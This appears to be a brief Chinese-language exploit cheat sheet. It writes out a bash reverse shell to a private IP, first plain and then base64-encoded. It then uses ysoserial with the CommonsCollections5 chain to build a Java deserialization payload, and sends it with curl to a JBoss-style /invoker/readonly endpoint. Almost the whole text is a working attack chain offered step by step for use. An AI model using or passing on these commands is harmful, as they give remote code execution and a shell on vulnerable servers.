

# 1. 编写shell

bash -i >& /dev/tcp/192.168.44.131/1234 0>&1

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ0LjEzMS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}

# 2.  制作2进制文件
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ0LjEzMS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}" > poc.ser

# 3. 攻击/监听
curl http://192.168.44.149:8080/invoker/readonly --data-binary @poc.ser
